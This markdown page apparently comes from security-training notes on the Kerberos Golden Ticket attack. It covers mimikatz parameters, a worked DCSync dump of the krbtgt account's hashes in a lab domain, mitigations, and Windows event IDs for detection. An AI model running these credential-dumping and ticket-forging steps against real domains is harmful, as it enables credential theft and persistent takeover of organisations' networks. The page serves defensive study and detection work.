








# Golden Ticket



## Description

The `Kerberos Golden Ticket` attack allows a threat actor to generate forged Kerberos `TGTs` for any user in the domain, effectively allowing them to impersonate trusted identities.

When a domain is created, the unique account `krbtgt` is created by default. This account:

- cannot be deleted
- cannot be renamed
- is disabled by default for interactive use

The Domain Controller’s `KDC` service uses the password of `krbtgt` to derive the key used to sign Kerberos tickets. Because of this, `krbtgt` is one of the most trusted objects in the domain.

Any user or system that obtains the password hash of `krbtgt` can create valid Kerberos `TGTs`.

The `Golden Ticket` attack is commonly used for:

- long-term persistence in a domain
- impersonation of privileged users
- movement across the environment
- escalation from a child domain to the parent domain in the same forest

This attack typically occurs only after an adversary has already obtained `Domain Admin` or equivalent privileges.

---

## Attack Walkthrough

To perform a `Golden Ticket` attack with `Mimikatz`, the following information is required:

- `/domain` — the domain name
- `/sid` — the domain SID
- `/rc4` — the `krbtgt` NTLM hash
- `/user` — the username for which the forged ticket will be created
- `/id` — the relative ID (`RID`) of that user

`Mimikatz` generates tickets with a default lifetime of 10 years, which can be suspicious and easy for EDR solutions to detect.

Useful optional parameters include:

- `/renewmax` — maximum number of days the ticket can be renewed
- `/endin` — ticket lifetime

The first step is obtaining the `krbtgt` hash. In this example, `Mimikatz` is used with `DCSync` to request the credentials of the `krbtgt` account:

```powershell id="q2f1ns"
C:\WINDOWS\system32>cd ../../../

C:\>cd Mimikatz

C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 07/08/2022 11.26.54
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e
    ntlm- 0: db0d0630064747072a7da3f7c3b4069e
    lm  - 0: f298134aa1b3627f4b162df101be7ef9

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b21cfadaca7a3ab774f0b4aea0d7797f

* Primary:Kerberos-Newer-Keys *
    Default Salt : EAGLE.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
      aes128_hmac       (4096) : 8ca6bbd37b3bfb692a3cfaf68c579e64
      des_cbc_md5       (4096) : 580229010b15b52f

* Primary:Kerberos *
    Default Salt : EAGLE.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 580229010b15b52f

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4799f361e20c69c6fc83b9253553f3f
    02  510680d277587431b476c35e5f56e6b6
    03  7f55d426cc922e24269610612c9205aa
    04  b4799f361e20c69c6fc83b9253553f3f
    05  510680d277587431b476c35e5f56e6b6
    06  5fe31b1339791ab90043dbcbdf2fba02
    07  b4799f361e20c69c6fc83b9253553f3f
    08  7e08c14bc481e738910ba4d43b96803b
    09  7e08c14bc481e738910ba4d43b96803b
    10  b06fca48286ef6b1f6fb05f08248e6d7
    11  20f1565a063bb0d0ef7c819fa52f4fae
    12  7e08c14bc481e738910ba4d43b96803b
    13  b5181b744e0e9f7cc03435c069003e96
    14  20f1565a063bb0d0ef7c819fa52f4fae
    15  1aef9b5b268b8922a1e5cc11ed0c53f6
    16  1aef9b5b268b8922a1e5cc11ed0c53f6
    17  cd03f233b0aa1b39689e60dd4dbf6832
    18  ab6be1b7fd2ce7d8267943c464ee0673
    19  1c3610dce7d73451d535a065fc7cc730
    20  aeb364654402f52deb0b09f7e3fad531
    21  c177101f066186f80a5c3c97069ef845
    22  c177101f066186f80a5c3c97069ef845
    23  2f61531cee8cab3bb561b1bb4699cb9b
    24  bc35f896383f7c4366a5ce5cf3339856
    25  bc35f896383f7c4366a5ce5cf3339856
    26  b554ba9e2ce654832edf7a26cc24b22d
    27  f9daef80f97eead7b10d973f31c9caf4
    28  1cf0b20c5df52489f57e295e51034e97
    29  8c6049c719db31542c759b59bc671b9c
```

We then use the `Get-DomainSID` function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to obtain the domain SID:



With the domain name, SID, `krbtgt` hash, and target user information, `Mimikatz` can forge a ticket for `Administrator`. The `/ptt` argument passes the ticket into the current session.



After injecting the ticket, we can confirm it with `klist` and then use it to access privileged resources:





---

## Prevention

Preventing forged Kerberos tickets is difficult because the `KDC` generates valid tickets using the same signing process. Once an attacker has the required information, they can forge tickets that look legitimate.

Recommended mitigations include:

* prevent privileged users from authenticating to untrusted devices
* restrict where `Domain Admins` and other privileged accounts can log on
* periodically reset the password of the `krbtgt` account
* enforce `SIDHistory` filtering between domains in a forest
* reduce the chance of `krbtgt` compromise by hardening Domain Controllers and privileged administration paths

---

## Detection

Correlating user behavior is one of the best ways to detect abuse of forged Kerberos tickets.

If a mature organization uses `Privileged Access Workstations (PAWs)`, then privileged users authenticating from other machines should immediately stand out. This can be monitored through:

* `4624` — successful logon
* `4625` — failed logon

One important limitation is that Domain Controllers do **not** log a specific event when a Golden Ticket is forged on a compromised system. Instead, what we usually see are the resulting authentication and service access events generated when the forged ticket is used.

For example, a successful logon originating from the compromised machine may appear as follows:



Another possible detection point is a `TGS` request for a user without a corresponding earlier `TGT` request visible in normal logs.

In the example attack flow, running `dir \\dc1\c$` generated two `TGS` tickets on the Domain Controller:

### Ticket 1



### Ticket 2



The difference between these tickets is the service being accessed, but otherwise they look ordinary. That is part of what makes Golden Ticket abuse difficult to detect.

If `SID filtering` is enabled, cross-domain abuse may also trigger event ID `4675` during child-to-parent escalation scenarios.

### Detection Ideas

* alert on privileged users authenticating from unexpected workstations
* monitor `4624` and `4625` for accounts that should only log on from hardened admin systems
* investigate `TGS` requests that do not line up with expected `TGT` activity
* monitor for unusual service access from non-admin hosts
* baseline normal Kerberos activity for privileged accounts and investigate deviations
* watch for event ID `4675` in environments where cross-domain trust abuse is a concern

> **Note:** If an Active Directory forest has been compromised, incident response becomes significant. All user passwords should be reset, all certificates should be revoked, and the `krbtgt` password must be reset **twice** in **every domain**.

 
